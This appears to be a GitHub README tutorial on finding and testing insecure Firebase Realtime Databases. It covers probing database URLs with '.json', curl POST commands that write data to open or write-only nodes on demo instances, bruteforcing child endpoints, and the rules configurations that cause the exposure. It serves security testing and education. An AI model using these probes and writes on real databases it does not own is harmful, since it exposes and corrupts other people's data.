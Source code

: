# Insecure-Firebase

### Case 1:

### Allows Anonymous read and write or only read access 

Add '.json' at the end of database url if you see `null` or `<data>` in response that means database is insecure and anyone can read/write into database.

For example: https://insecure-firebase.firebaseio.com/.json returns `null`


#### POC (Insert data)
```
curl -X POST https://insecure-firebase.firebaseio.com/testing.json \
-d '{"cat": "meow", "dog": "bowbow"}'
```
This will create a new data location `/testing` in database

Now visit https://insecure-firebase.firebaseio.com/testing.json or https://insecure-firebase.firebaseio.com/.json

and you will see new data is added to database



Firebase configuration rules which leads to this vulnerability

```
{
  /* Visit https://firebase.google.com/docs/database/security to learn more about security rules. */
  "rules": {
    ".read": true,
    ".write": true
  }
}
```
As you can see in the above configuration both read and write set to true which means anyone can read and write to
this firebase database, developer some times use this settings for testing purpose but letter forgets to change this
to only allow app users to read or write data (rare to find).

### Case 2:

### When the child is specified with no auth

When testing firebase database what i was doing before is adding .json at the end of database url if it returns `null` or any data then it means that database is vulnerable but if it returns `permission denied` then it means database is secure.

Then I watched a video shared by [@B3nac](https://twitter.com/B3nac)
 where he showed that developer can set rules for child nodes also. Like this:

```
{
  /* Visit https://firebase.google.com/docs/database/security to learn more about security rules. */
  "rules": {
    "Admin": {
    ".read": false,
    ".write": false
    },
    "Users": {
      ".read": true,
      ".write": false
    }
  }
}
```

For the purpose of demonstration i deployed a firebase database with the above rules so if you go to 

`https://in-firebase-683e6.firebaseio.com/.json` 

you will get `permission denied` error but if you go to https://in-firebase-683e6.firebaseio.com/Users.json you will get user data which is exposed due to rule set on `Users` node. So we can bruteforce endpoints to find other vulnerable endpoints.


Then I thought that developer can also set only write access to an endpoint which means if we go to that endpoint we will get `permission denied` error but if we try to write some data we can write. The permission rule at development end will look like this:

```
{
  /* Visit https://firebase.google.com/docs/database/security to learn more about security rules. */
  "rules": {
    "Logs": {
      ".read": false,
      ".write": true
    }
  }
}
```

Here developer sets the write rule at `Logs` endpoint, So if you go to https://in-firebase-683e6.firebaseio.com/Logs.json you will get `permission denied` error but you can write data to it. 

Example:
```
curl -X POST https://in-firebase-683e6.firebaseio.com/Logs.json -d '{"test": "testing"}'
```

If you run the above command you will get something like this in response `{"name":"-M3B_iyZE1RPDaPNuknX"}` which means write is successfull.


## Exploiting with Firebase API key

```
Currently working on this I will add more details later 
```
Developer can restrict api key to control which website, IP address or application can use API key 
![alt api-restriction](https://raw.githubusercontent.com/tauh33dkhan/Hacking-Insecure-Firebase-Database/master/api-restrict.png)

### Extra

Recovering Firebase remote config: https://blog.deesee.xyz/android/automation/2019/08/03/firebase-remote-config-dump.html

### Note
Please setup your own database and test on it before palying with production database because one mistake can mess all the data out there.

#### Contact Me
[@tauh33dkhan](https://twitter.com/tauh33dkhan)
